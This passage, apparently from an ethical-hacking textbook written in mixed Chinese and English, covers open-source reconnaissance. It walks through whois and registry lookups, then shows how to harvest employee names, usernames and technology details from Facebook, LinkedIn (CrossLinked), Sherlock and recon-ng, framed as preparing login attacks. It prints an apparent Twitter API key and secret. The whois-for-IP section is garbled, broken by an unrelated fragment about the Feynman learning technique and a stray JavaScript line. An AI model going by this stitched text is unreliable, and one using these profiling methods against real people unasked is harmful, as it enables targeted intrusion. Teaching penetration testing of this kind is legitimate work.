EDGAR 仅适用于公开公司。并非所有公司都是公开的，私人公司的信息透明度不如公开公司。不过，EDGAR 并不是唯一可以用于收集公司信息的资源。另一个与互联网本身相关的信息来源是域名注册商。你从域名注册商获取的信息与 EDGAR 获得的信息并不相同，但有时仍是可靠的来源。例如，你可以获取公司可能的总部地址。


这并不保证万无一失。如前所述，公司正在隐藏在注册商处提供的信息。信息被注册商隐藏。当你查询时，你得到的只是注册商被要求展示的内容，未必是真实的详细信息。除非注册商在核实信用卡支付的账单地址，否则并没有义务提供真实地址。事实上，我曾经看到过域名登记时使用了虚假的电话号码和错误的地址。由于数据是公开的，务必谨慎对待共享内容。任何人都可以挖掘注册管理系统中的这些信息，并将其用于各种目的。

在我们继续前进之前，了解互联网在域名和地址治理方面的运作方式可能很有帮助。首先，互联网名称与数字管理局（ICANN）负责域名和数字的管理。ICANN 下属的互联网数字管理局（IANA）负责管理 IP 地址、端口、协议以及其他与互联网功能密切相关的关键数字。1998 年 ICANN 成立之前，IANA 的职能由一位名叫 Jon Postel 的人负责，他同时也维护了请求评论（RFC）文档。

除了 ICANN，负责名称和编号的还有域名注册商。这些组织存储它们负责的地址以及联系人信息。过去，注册域名及相关数据需要通过单一实体完成，但现在有多家公司提供注册人功能。如果你想注册域名，通常会前往 `DomainMonger` 或 `GoDaddy` 等注册商公司。这些公司随后可以被查询，以获取关于域名的详细信息。

要从区域互联网注册机构（RIR）中获取信息，可以使用 `whois` 程序。这是一款在大多数类 Unix 系统（包括 Linux 和 macOS）上可在命令行运行的工具，也有网站提供 `whois` 实现，方便不具备 Unix 环境的用户。下面是一段 `whois` 查询的输出示例：

```
whois Query of wiley.com
```

whois wiley.com

Domain Name: WILEY.COM

    Registry Domain ID: 936038_DOMAIN_COM-VRSN

    Registrar WHOIS Server: whois.corporatedomains.com

    Registrar URL: http://cscdbs.com

    Updated Date: 2021-08-30T16:27:21Z

    Creation Date: 1994-10-12T04:00:00Z

    Registry Expiry Date: 2023-10-11T04:00:00Z

    Registrar: CSC Corporate Domains, Inc.

    Registrar IANA ID: 299

    Registrar Abuse Contact Email: domainabuse@cscglobal.com

    Registrar Abuse Contact Phone: 8887802723

    Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited

    Name Server: AUS-IBEXTDNS-01.WILEY.COM

    Name Server: CAR-IBEXTDNS-01.WILEY.COM

    DNSSEC: unsigned

    URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/ 

←- SNIP →

Domain Name: wiley.com

Registry Domain ID: 936038_DOMAIN_COM-VRSN

Registrar WHOIS Server: whois.corporatedomains.com

Registrar URL: www.cscprotectsbrands.com

Updated Date: 2021-08-30T12:27:21Z

Creation Date: 1994-10-12T00:00:00Z

Registrar Registration Expiration Date: 2023-10-11T04:00:00Z

Registrar: CSC CORPORATE DOMAINS, INC.

Sponsoring Registrar IANA ID: 299

Registrar Abuse Contact Email: domainabuse@cscglobal.com

Registrar Abuse Contact Phone: +1.8887802723

Domain Status: clientTransferProhibited http://www.icann.org/epp#clientTransferProhibited

Registry Registrant ID:

Registrant Name: Domain Administrator

Registrant Organization: John Wiley & Sons, Inc

Registrant Street: 111 River Street

Registrant City: Hoboken

Registrant State/Province: NJ

Registrant Postal Code: 07030

Registrant Country: US

Registrant Phone: +1.3175723355

Registrant Phone Ext:

Registrant Fax: +1.3175724355

Registrant Fax Ext:

Registrant Email: domains@wiley.com

Registry Admin ID:

Admin Name: Domain Administrator

Admin Organization: John Wiley & Sons, Inc

Admin Street: 111 River Street

Admin City: Hoboken

Admin State/Province: NJ

Admin Postal Code: 07030

Admin Country: US

Admin Phone: +1.3175723355

Admin Phone Ext:

Admin Fax: +1.3175724355

Admin Fax Ext:

Admin Email: domains@wiley.com

Registry Tech ID:

Tech Name: Electronic Support Services

Tech Organization: John Wiley & Sons Inc

Tech Street: 111 River Street

Tech City: Hoboken

Tech State/Province: NJ

Tech Postal Code: 07030

Tech Country: US

Tech Phone: +1.3175723100

Tech Phone Ext:

Tech Fax: +1.3175724355

Tech Fax Ext:

Tech Email: domains@wiley.com

Name Server: car-ibextdns-01.wiley.com

Name Server: aus-ibextdns-01.wiley.com

DNSSEC: unsigned There is a lot of output there to look through, and I've snipped out a bunch of it to keep it to really relevant information. First, `whois` checks with IANA's `whois` server to figure out who it needs to check with about this specific domain. You can see that happen at the very top of the output. IANA indicates that CSC Corporate Domains is the registrar for this domain. We get the details about the registrar CSC Corporate Domains. After that, and a lot of information being snipped out, we finally get the details about the domain `wiley.com`. What you can see in the output is the address and phone number for the company. Additionally, you get information about a handful of contacts for the company. Registrars expect an administrative contact and a technical contact.

As indicated earlier, not all domains will provide this level of detail. An example of a domain that doesn't include any contact details is `spamhaus.org`. Here you can see that the contact information shows that the data has been redacted for privacy.

## Details About `spamhaus.org`

```
Domain Name: spamhaus.org
Registry Domain ID: 3438c67fd16d45eca26608d562bb3be6-LROR
Registrar WHOIS Server: http://whois.comlaude.com
Registrar URL: https://comlaude.com/whois
Updated Date: 2022-09-06T23:10:56Z
Creation Date: 1999-10-01T11:03:57Z
Registry Expiry Date: 2023-10-01T11:03:57Z
Registrar: Nom-iq Ltd. dba COM LAUDE
Registrar IANA ID: 470
Registrar Abuse Contact Email: abuse@comlaude.com
Registrar Abuse Contact Phone: +44.2074218250
Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
Domain Status: serverDeleteProhibited https://icann.org/epp#serverDeleteProhibited
Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
Domain Status: serverUpdateProhibited https://icann.org/epp#serverUpdateProhibited
Registry Registrant ID: REDACTED FOR PRIVACY
Registrant Name: REDACTED FOR PRIVACY
Registrant Organization: Spamhaus IP Holdings SLU
Registrant Street: REDACTED FOR PRIVACY
Registrant City: REDACTED FOR PRIVACY
Registrant State/Province:
Registrant Postal Code: REDACTED FOR PRIVACY
Registrant Country: AD
Registrant Phone: REDACTED FOR PRIVACY
Registrant Phone Ext: REDACTED FOR PRIVACY
Registrant Fax: REDACTED FOR PRIVACY
Registrant Fax Ext: REDACTED FOR PRIVACY 
```

Using a strategy like this will keep information private and out of the hands of the very people `spamhaus.org` seeks to protect against. The data provided can be used to create a mailing list for spammers. It can also be used to create a physical mailing list for traditional junk mail providers (sometimes called `mail marketing companies`).

## Regional Internet Registries

Not all the useful information is stored with the domain registrars, however. There is other data that is important to be kept. Earlier, we discussed IANA. While the IANA server provided information about domain registrars, its purpose has long been to be a central clearinghouse for addresses. This includes not only port numbers for well‑known services but also IP addresses. IANA, at a high level, owns all IP addresses. It hands out those IP addresses, based on need, to the RIRs. The RIRs then hand them out to organizations that fall into their geographic region.

There are five RIRs around the world. They are based in different geographic regions, and an organization would refer to the RIR where they are located for things like IP addresses. The RIRs and the geographic areas they are responsible for are listed here:

*   `African Network Information Center (AfriNIC)` Africa

*   `American Registry for Internet Numbers (ARIN)` United States and Canada, as well as Antarctica and parts of the Caribbean

*   `Asia Pacific Network Information Centre (APNIC)` Asia, Australia, New Zealand, and neighboring countries

*   `Latin America and Caribbean Network Information Centre (LACNIC)` Latin America and parts of the Caribbean

*   `Réseaux IP Européens Network Coordination Centre (RIPE NCC)` Europe, Russia, Greenland, the Middle East, and parts of Central Asia


All of these RIRs have their own databases that can be queried using `whois`, just as we used `whois` to query information from the domain registrars. Typically, you would use `whois` against the RIRs to find out who owns a particular IP address. For example, in the output for `wiley.com` earlier, part of the output indicated which name servers the domain uses to resolve hostnames to IP addresses. One of those name servers is `car-ibextdns-01.wiley.com`. With a minimal amount of effort (we will cover DNS in the section “Domain Name System” later in this chapter), we can discover that the hostname `car-ibextdns-01.wiley.com` resolves to the IP address 63.97.119.2. Using `whois`, we can find out who owns that IP address. You can see the results of that query in the following code.

## `whois` Query for IP Address

- [whois 63.97.119.2](https://whois.example.org/63.97.119.2)的灵感源于诺贝尔物理奖获得者**Richard Feynman**，即**理查德·费曼**。

1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```

- 社交网络站点是人们建立联系的方式。它们有多种不同的类型，已经存在了超过二十年，第一个是 `sixdegrees.com`，于 1997 年推出。像 Myspace 这样的站点允许用户与他人分享音乐和个人信息。Facebook 允许用户创建社区、分享新闻和信息，并与失去联系的朋友重新联系。Twitter 经常用于新闻和更新，以及营销信息——例如发布公告。LinkedIn 适用于各种商业目的，包括分享公司活动、个人成就和人员变动的更新。


你可以花大量时间在上述站点上手动查找信息。此外，还有工具可以使用。其中之一是我们已经看过的工具。除了使用传统搜索引擎如 Google 和 Bing，`theHarvester` 还会在一些社交网络站点中进行搜索。还有专门针对某些站点的工具，例如 LinkedIn，你可以使用 `CrossLinked`。最后，我们有一个像 `Maltego` 这样的工具，它适合一般的开源情报搜集，但也可以用于在社交网络站点中搜索关于个人和公司的详细信息。

### Facebook

虽然主要被视为个人站点的网站可能更侧重于个人，但它们仍然对从事伦理黑客工作的人有用。像 Facebook 这样的站点很有趣，因为人们在那里放松警惕，发布大量或许不该发布的信息。他们往往没有意识到他们发布的内容有多少是可搜索的。随着时间的推移，Facebook 大幅提升了可获取的信息量，尽管仍不够理想。多年前，有一个网站 `www.weknowwhatyouredoing.com`，它会搜索 Facebook 帖子并将其分为四类——想被解雇的人、宿醉的人、服用毒品的人以及换了新手机号码的人。Figure 4.4 展示了该站点下线前的部分帖子（因为其使用的 API 已不再可用）。


**FIGURE 4.4** `www.weknowwhatyouredoing.com`

这并不意味着 Facebook 已经不再提供 API。Facebook Graph API 仍然存在，只是不再像以前那样开放。仍然存在 Graph API，并且可以在应用程序中使用。事实上，Facebook 提供了 Graph API Explorer，用于测试对 API 的查询。Figure 4.5 展示了 Graph API Explorer。在顶部可以看到有一个访问令牌。该令牌在选择一系列权限后生成，并基于当前登录的用户。一旦你拥有令牌，就可以生成查询。图中显示的是默认查询，请求用户的 ID 和姓名。当然，姓名是我的，因为该访问令牌是基于我的登录生成的。



**FIGURE 4.5** Facebook Graph API

你不必创建应用程序就能进行搜索。搜索可以手动进行。Facebook 不仅用于个人，也常被公司使用。许多公司在自己的页面上发布关于产品和服务的具体信息。这是另一个可以获取公司信息的地方。Figure 4.6 展示了 John Wiley & Sons 在其 Facebook 页面上提供的业务信息。除了可以看到其位置外，还有诸如评论、帖子和社区等其他类别的信息。评论有时能提供启发性信息，当然，还提供了联系方式。



**FIGURE 4.6** John Wiley & Sons information

你不必仅仅依赖 Facebook 来查找公司信息。人们经常在个人页面上发布关于雇主的详细信息。不幸的是，在 Facebook 上搜索信息可能会很困难。你无法使用常规搜索一次性查找某公司的所有员工。但是，如果你通过其他途径已经找到了一些员工姓名，你可以使用这些姓名在 Facebook 上查找他们的页面并阅读他们的状态更新。经常，人们会在个人资料中包含他们目前或曾经工作的公司信息，这有助于你更好地区分同名的人。

这很大程度上取决于隐私设置。隐私设置通常设置为公开，这意味着你大概率能阅读到你正在寻找的人的帖子，也能查看他们的照片。在社交媒体时代，人们普遍期望可以了解关于他人的任何信息，但往往忽视了谁可能看到他们的帖子和照片。这为我们提供了优势。然而，并不总是能看到某人在做什么或说什么。Figure 4.7 展示了 Facebook 用户可用的不同隐私设置。其中一个挑战是，你的设置仅针对你自己的操作。你的设置无法阻止其他人分享你的帖子或照片，这可能导致超出你期望之外的人看到这些内容。随后，这取决于他们的权限设置。


**FIGURE 4.7** Facebook permissions settings

有时，人们会在状态更新中发布关于工作的信息，包括他们当天的活动，或者他们在另一个工作地点签入。这些信息对你可能很有用。然而，像 Facebook 这样的网站并不总是最适合获取关于企业和员工的信息。还有其他社交网络站点可能会更高效。

### Username Search

凭证常被攻击者用来访问他们本不应有访问权限的资源。一旦你识别出目标人物，获取他们的用户名可能会很有用。工具 `Sherlock` 可能对识别人物和用户名有帮助。这是 ParrotOS 默认安装的程序。你提供一个想要查找的用户名列表，它会在数百个社交网络中搜索这些用户名。当然，找到一个用户名并不保证它是你要找的人。但知道用户名有助于进行可能的登录攻击。运行 `Sherlock` 的示例命令如下，它提供了三个不同的用户名并指定了用于存放输出文本文件的目录。以下是运行该命令后的输出样本。

**Using Sherlock**

```bash
$ sherlock --fo smithsearch jsmith smith johnsmith

[*] Checking username jsmith on:

[+] 7Cups: https://www.7cups.com/@jsmith

[+] 9GAG: https://www.9gag.com/u/jsmith

[+] About.me: https://about.me/jsmith

[+] Academia.edu: https://independent.academia.edu/jsmith

[+] Airbit: https://airbit.com/jsmith

[+] Airliners: https://www.airliners.net/user/jsmith/profile/photos

[+] AllMyLinks: https://allmylinks.com/jsmith

[+] Apple Developer: https://developer.apple.com/forums/profile/jsmith

[+] Apple Discussions: https://discussions.apple.com/profile/jsmith

[+] Archive of Our Own: https://archiveofourown.org/users/jsmith

[+] Archive.org: https://archive.org/details/@jsmith

[+] Arduino: https://create.arduino.cc/projecthub/jsmith

[+] Asciinema: https://asciinema.org/~jsmith

[+] AskFM: https://ask.fm/jsmith

[+] Audiojungle: https://audiojungle.net/user/jsmith

[+] BLIP.fm: https://blip.fm/jsmith

[+] Behance: https://www.behance.net/jsmith

[+] BiggerPockets: https://www.biggerpockets.com/users/jsmith

[+] Bikemap: https://www.bikemap.net/en/u/jsmith/routes/created/
```

LinkedIn has been around for about two decades as of this writing. In spite of a number of competitors (such as Plaxo) going out of business or just no longer being in the space, LinkedIn is still around. It continues to expand its offerings beyond the very early days, when it was basically a contact manager. These days, LinkedIn is a business networking opportunity, highly useful for those in sales. It is also a great source for identifying jobs you may be interested in. It seems like human resources people, specifically recruiters, commonly use LinkedIn to find people to fill positions, whether it's an internal recruiter or someone who works for a recruiting company.

Because of the amount of business information LinkedIn collects, we can make use of it as a hunting platform. Especially with the paid memberships, LinkedIn does a lot of analytics about the businesses that make use of it, as well as the people who are on the site. If you are looking for information about a target, LinkedIn provides a lot of detail. Just as one example, Figure 4.8 shows some statistics about applicants for a position that is open and advertised through the Jobs section of the website. This information requires a Premium subscription. We can see that the position attracts educated applicants. You can start to get a sense of the workforce by looking at these statistics across multiple positions.



**FIGURE 4.8** LinkedIn job statistics

Job listings are another place to look for details beyond the statistics about applicants and the workforce overall. What we can see from these listings is technology that may be in place within the organization. A listing for a network security engineer has requirements as shown in Figure 4.9. While some of these requirements are generic, there are also some that are very specific about the technology in use in the network. For example, it appears that the company may be using Check Point on their site and Palo Alto Networks firewalls. Additionally, it has Cisco routers and switches in its network. This is a foothold. We can now start thinking about how to attack that sort of infrastructure. Cisco devices, for sure, have tools that can be run against them for various auditing and attack purposes.



**FIGURE 4.9** Job requirements for a network security engineer

We don't have to limit ourselves to the web interface, though, since it can be tedious to keep typing things and flicking through pages. Sometimes you want to be able to script a search without writing a program or manually using a web page. Formerly, there was a tool called `InSpy` that worked well for searching through LinkedIn. Unfortunately, the latest version of `InSpy` available on Kali, 3.0.0, generates 404 errors trying to search for details. The instructions also require the use of an API key. With a little work, though, you can use another tool to do the LinkedIn searching for you.


Beyond jobs, though, we can use LinkedIn to harvest information about people. There are a couple of reasons to look up people. One is just to get some names and titles that you may use later. Another is that even if job descriptions don't have information about technology, when people post their job responsibilities, they very often do. You can also get details about their certifications. Someone with a load of Cisco certifications, for example, is probably employed at a company that has a lot of Cisco equipment. Don't overlook nontechnical roles either. Anyone may provide a little insight into what you may find in the organization. You may get information about telephone systems and document management systems that the company uses, even if the employee isn't an administrator.

We will take a look at a tool called `crosslinked.py` here to do some searching for us.

## CrossLinked Results from an Employee Search

```
 $ git clone https://github.com/m8r0wn/crosslinked
  
 Cloning into 'crosslinked'…
 remote: Enumerating objects: 166, done.
 remote: Counting objects: 100% (27/27), done.
 remote: Compressing objects: 100% (25/25), done.
 remote: Total 166 (delta 15), reused 4 (delta 2), pack-reused 139
 Receiving objects: 100% (166/166), 66.85 KiB | 2.48 MiB/s, done.
 Resolving deltas: 100% (72/72), done.
 $ pip3 install -r requirements.txt
 $ python3 crosslinked.py Wiley -f wiley.com\flast --search google
  
      _____                    _             _            _ 
     /  __ \                  | |   (x)     | |          | |
     | /  \/_ __ ___  ___ ___ | |    _ _ __ | | _____  __| |
     | |   | '__/ _ \/ __/ __|| |   | | '_ \| |/ / _ \/ _` |
     | \__/\ | | (_) \__ \__ \| |___| | | | |   <  __/ (_| | @m8sec
      \____/_|  \___/|___/___/\_____/_|_| |_|_|\_\___|\__,_| v0.2.1
  
     
 [*] Searching google for valid employee names at "Wiley"
 [*] 99 https://www.google.com/search?q=site:linkedin.com+in+"Wiley"&num=100&start=0 (200)
 [*] 198 https://www.google.com/search?q=site:linkedin.com/in+"Wiley"&num=100&start=99 (200)
 [*] 297 https://www.google.com/search?q=site:linkedin.com/in+"Wiley"&num=100&start=198 (200)
 [*] 298 https://www.google.com/search?q=site:linkedin.com/in+"Wiley"&num=100&start=297 (200)
 [*] 298 https://www.google.com/search?q=site:linkedin.com/in+"Wiley"&num=100&start=298 (200)
 [*] 298 https://www.google.com/search?q=site:linkedin.com/in+"Wiley"&num=100&start=298 (200)
 [*] 298 https://www.google.com/search?q=site:linkedin.com/in+"Wiley"&num=100&start=298 (200)
 [*] 298 names collected
```

The results of the search are placed in a comma‑separated values file named `names.csv`. This is not a perfect utility, however, since it is not searching for employees at Wiley. Instead, you are getting everything that may have Wiley as part of the results, including people named Wiley. This includes people like a consultant named Calvin Wiley.

## Twitter

Another common social networking site or service is Twitter. There is a lot posted to Twitter that can be of some use. Again, programmatic access to Twitter is useful. You can search using the regular interface, but it's sometimes helpful to be able to use other tools. To gain access to Twitter programmatically, you need to get an API key. This means you need to tell Twitter you are creating an application. You can easily tell Twitter you are creating an application without any special credentials through the Twitter developer's website. When you go through the process to create an application, what you are doing is creating identification information that your app needs to interact with the Twitter service. In Figure 4.10, you can see keys and access tokens for an app.



**FIGURE 4.10** Twitter keys and access tokens

你可能会注意到在`Figure 4.10`中，应用名称为`recon-ng-me`。原因是我只创建该应用是为了获取 key 和 token，以便将其添加到`recon-ng`，这是一个用于侦察的工具，包含许多插件。有些插件需要 API key 或访问 token 才能与被查询的服务进行交互。这正是 Twitter 插件的情况。下面的代码中，你可以看到`recon-ng` 使用的 API key 列表以及 Twitter 的 API key 设置。在使用 key 之前，你需要在`recon-ng` 的市场中，使用`marketplace install recon/profiles-profiles/twitter_mentions` 将模块安装到`recon-ng`。

### `recon-ng` Keys

```
[recon-ng][default]> keys list

+———————————————————————––––––––––––––––––––––––––––––––––––––––––––––+
|       Name       |                       Value                        |
+—————————————————–––––––––––––––––––––––––––––––––––––––––––––––––––+
| bing_api         |                                                    |
| builtwith_api    |                                                    |
| censysio_id      |                                                    |
| censysio_secret  |                                                    |
| flickr_api       |                                                    |
| fullcontact_api  |                                                    |
| github_api       |                                                    |
| google_api       |                                                    |
| google_cse       |                                                    |
| hashes_api       |                                                    |
| ipinfodb_api     |                                                    |
| jigsaw_api       |                                                    |
| jigsaw_password  |                                                    |
| jigsaw_username  |                                                    |
| pwnedlist_api    |                                                    |
| pwnedlist_iv     |                                                    |
| pwnedlist_secret |                                                    |
| shodan_api       |                                                    |
| twitter_api      | 0DE6bQv89M2AApxCvzfX7AIpd                          |
| twitter_secret   | jxhcaFu9FS8AK9g4m6N9OrhkuCQoP6A5ppgSdckOIf3zhD3cMK |
+———————————————————————––––––––––––––––––––––––––––––––––––––––––––––+

```

现在我们已经设置好 Twitter 的 API key，就可以运行模块了。要运行模块，需要“加载”它，即使用`modules load`命令加载模块。加载后，需要设置来源。在我们的情况，来源是一个文本字符串，需要用引号括起来，告诉`recon-ng`我们使用文本字符串作为来源。这里期望的文本字符串是用户名。单词`recon`是随意选择的，结果却很有效。一旦完成这些步骤，只需运行模块即可。下面的代码展示了加载模块、设置来源并运行模块的过程。由于模块返回的结果较多，结果被截断以示用法示例。

### 使用 Twitter 模块在 `recon-ng`


```
[recon-ng][default]> modules load recon/profiles-profiles/twitter_mentions
[recon-ng][default][twitter_mentions]> options list

   Name    Current Value  Required  Description
   ------  -------------  --------  -----------
   LIMIT   True           yes       toggle rate limiting
   SOURCE  default        yes       source of input (see 'show info' for details)

[recon-ng][default][twitter_mentions]> options set SOURCE ‘recon’
SOURCE => ‘recon’

[recon-ng][default][twitter_mentions]> run

‘RECON’
[*] Category: social
[*] Notes: Pentester Academy
[*] Resource: Twitter
[*] Url: https://twitter.com/SecurityTube
[*] Username: SecurityTube
[*] --------------------------------------------------
[*] Category: social
[*] Notes: Pentester Academy
[*] Resource: Twitter
[*] Url: https://twitter.com/SecurityTube
[*] Username: SecurityTube
[*] --------------------------------------------------
[*] Category: social
[*] Notes: Tony Lazzari
[*] Resource: Twitter
[*] Url: https://twitter.com/TonyLazzariXXX
[*] Username: TonyLazzariXXX
[*] --------------------------------------------------
[*] Category: social
[*] Notes: Michael Lee
[*] Resource: Twitter
[*] Url: https://twitter.com/jocko2001
[*] Username: jocko2001
[*] --------------------------------------------------
[*] Category: social
[*] Notes: Josh Morgerman
[*] Resource: Twitter
[*] Url: https://twitter.com/iCyclone
[*] Username: iCyclone
[*] --------------------------------------------------
[*] Category: social
[*] Notes: JBC Trader
[*] Resource: Twitter
[*] Url: https://twitter.com/JbcTrader
[*] Username: JbcTrader
[*] --------------------------------------------------
[*] Category: social
[*] Notes: wx_fitz2024
[*] Resource: Twitter
[*] Url: https://twitter.com/wx_fitz2024
[*] Username: wx_fitz2024
[*] --------------------------------------------------

```

由于我们使用的是`twitter-mentions`模块，因此使用文本字符串在 Twitter 上搜索提及。返回的结果是被给定用户提及的用户的个人资料。你也可以使用`twitter_mentioned`模块，它会返回提及指定用户的个人资料。最后，我们可以使用`locations-pushpin/twitter`模块查找在特定地理区域发生的推文。你可以使用这个模块指定在哪个半径（公里）内搜索推文。

